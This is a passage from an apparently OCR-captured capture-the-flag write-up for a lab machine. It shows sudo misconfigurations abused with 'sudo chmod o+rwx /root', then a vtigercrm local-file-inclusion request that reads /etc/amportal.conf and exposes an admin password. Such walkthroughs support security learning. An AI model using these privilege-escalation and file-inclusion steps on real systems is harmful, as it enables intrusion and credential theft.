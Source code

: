 ```text
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

Oh boy, so many security misconfigurations! For this solution, let’s exploit the chmod command.

Run the following command to give everyone rwx permissions on the /root directory.

```text
sudo chmod o+rwx /root
```

Now we can view the root.txt flag.

![](https://miro.medium.com/max/519/1*8_RP2_tUaZYeEUtTbHrXyA.png)

## Solution \#2 <a id="e66c"></a>

This solution involves attacking port 443.

First, transfer the LFI exploit to the attack machine.

```text
searchsploit -m 37637.pl
```

Looking at the exploit, it seems that the LFI vulnerability is in the **current\_language** parameter. Let’s see if our application is vulnerable to it.

```text
https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We get back the following page.

![](https://miro.medium.com/max/1304/1*wkY_cdz3zNoiGsD2AU4w5Q.png)

The application is definitely vulnerable. Right click on the page and select View Page Source to format the page.

The file seems to have a bunch of usernames and passwords of which one is particularly interesting.

```text
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

